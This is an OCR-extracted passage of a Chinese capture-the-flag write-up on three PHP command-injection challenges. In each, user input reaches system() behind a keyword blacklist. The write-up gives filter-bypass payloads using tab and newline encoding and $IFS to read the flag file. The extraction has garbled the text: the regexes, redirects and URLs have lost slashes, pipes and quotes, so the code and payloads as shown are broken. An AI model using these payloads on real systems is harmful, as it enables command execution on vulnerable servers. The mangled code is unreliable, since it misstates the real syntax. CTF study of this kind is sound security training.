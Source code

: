 详情看这里： httpswww.cnblogs.com520playboyp6275022.html

web44~devnull过滤; cat flag
php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match(;catflagi, $c)){
        system($c. devnull 2&1);
    }
}else{
    highlight_file(__FILE__);
} 
过滤;、cat、flag

结合前面的，直接：

c=tac f%0a
web45~devnull多过滤空格
php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match(;catflag i, $c)){
        system($c. devnull 2&1);
    }
}else{
    highlight_file(__FILE__);
} 
多过滤了个空格。

payload

c=tac%09f%0a

c=tac$IFSf%0A
# 这里 f 前面不加 反斜杠的话就出不来，可能是会被前面的解析到一起吧。
c=more${IFS}f%0a
IFS httpswww.xuebuyuan.com3197835.html

web46~多过滤数字 $ 
php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match(;catflag [0-9]$i, $c)){
        system($c. devnull 2&1);
    }
}else{
    highlight_file(__FILE__);
} 
多过滤了数字、$ 、

意味着不能用shell中变量了。
